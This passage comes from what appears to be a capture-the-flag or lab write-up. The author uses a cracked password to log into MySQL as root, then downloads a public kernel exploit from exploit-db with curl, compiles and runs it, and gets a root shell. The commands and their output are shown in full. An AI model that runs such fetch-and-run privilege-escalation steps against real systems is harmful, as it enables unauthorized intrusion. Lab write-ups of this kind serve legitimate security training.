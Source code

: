 mysql> exit
exit
Bye

John and root have the same hash, so we have root to the MySQL server.

sh-3.00$ mysql -u root -p
mysql -u root -p
Enter password: hiroshima

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 91 to server version: 4.1.22

That was fun an all, but doesn't help us get root on the box.  Tame to poke around some more.

Exploit:

Searching kernel version finds an exploit-db page.  https://www.exploit-db.com/exploits/9542/

I'm going to start by breaking out of the python shell, less interactive but no echo.

sh-3.00$ exit
exit
exit

sh-3.00$ cd /tmp
sh-3.00$ curl -k -O https://www.exploit-db.com/download/9542
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2645  100  2645    0     0   4573      0 --:--:-- --:--:-- --:--:--     0
sh-3.00$

sh-3.00$ ls     
9542
sh-3.00$ mv 9542 9542.c
sh-3.00$ ls
9542.c
sh-3.00$ gcc -o a.out 9542.c
sh-3.00$ ls -la
total 32
drwxr-xrwx   4 root   root   4096 May 19 09:30 .
drwxr-xr-x  23 root   root   4096 May 19 07:12 ..
-rw-r--r--   1 apache apache 2645 May 19 09:28 9542.c
-rwxr-xr-x   1 apache apache 6932 May 19 09:30 a.out
drwxrwxrwt   2 root   root   4096 May 19 07:13 .font-unix
drwxrwxrwt   2 root   root   4096 May 19 07:12 .ICE-unix
sh-3.00$

sh-3.00$ chmod +x a.out
sh-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00#

That was fun and all....but it doesn't feel like they wanted me to get root this way.  It feels like there is something with the CUPS daemon.  Maybe I'll play with it more later.
